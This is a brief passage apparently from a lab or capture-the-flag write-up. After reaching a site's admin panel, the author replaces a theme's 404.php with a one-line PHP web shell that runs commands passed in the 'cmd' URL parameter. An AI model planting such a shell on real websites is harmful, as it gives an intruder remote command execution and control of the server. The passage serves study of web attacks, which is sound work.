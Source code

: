 Now we're in the admin panel, let's change the theme to a web shell:

![Pasted image 20250220144824.png](../../../IMAGES/Pasted%20image%2020250220144824.png)

Let's change the contents of `404.php` to:

```php
<?php

system($_GET['cmd']);
```

